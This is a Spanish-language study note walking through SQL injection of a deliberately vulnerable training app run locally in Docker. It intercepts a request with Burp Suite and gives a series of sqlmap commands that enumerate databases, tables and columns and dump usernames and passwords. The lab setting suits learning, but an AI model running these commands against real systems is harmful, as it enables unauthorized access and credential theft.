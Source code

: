
----------
-  Tags: #Explotación #Manuales #Automatizadas #SQL #INJECTION
-----
# Explotación Manual
- **Empezamos clonando el repositorio:**
```
git clone https://github.com/appsecco/sqlinjection-training-app
```

- **Desplegamos el contenedor con:**
```
docker-compose up 
```

- **Ingresamos al localhost por el puerto 8000:**
```web
localhost:8000
```
- Aplastar en reset database
- Loguearse como admin admin
- Usar el **burpsuite** con el **FoxyProxy** para interceptar petición, en la opción Proxy de burpsuite guardamos el archivo en cuestión en nuestro directorio.
- Utilizamos la herramienta sqlmap para saber si es inyectable:
```sql
sqlmap -r request -p searchitem --batch
```
- Dumpeamos el requerimiento en caso de ser positivo la inyección.
```
sqlmap -r request -p searchitem --batch --dbs
```
- Para mostrar las tablas existentes en **sqlitraining**.
```sql
sqlmap -r request.req -p searchitem --batch -D sqlitraining --tables
```
- Indica dos tablas que podrían ser atacadas.
```
+---------+
|products | 
|users    |
+---------+
```
- Ahora enumeraremos las columnas.
```SQL
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users --columns
```
```
+-------------------+
|Column  |Type      |
+-------------------+
|description|varchar|
|fname      |varchar|
|id         |int    |
|password   |varchar|
|username   |varchar|
+-------------------+
```
- Ahora dumpeamos los valores de username y pasword
```
sqlmap -r request.req -p searchitem --batch -D sqlitraining -T users -C username,password --dump
```
![[Dumpeamos username y password.png]]








>**Repositorio en github del SQL INJECTION:**
 [sqlinjection-training-app](https://github.com/appsecco/sqlinjection-training-app)

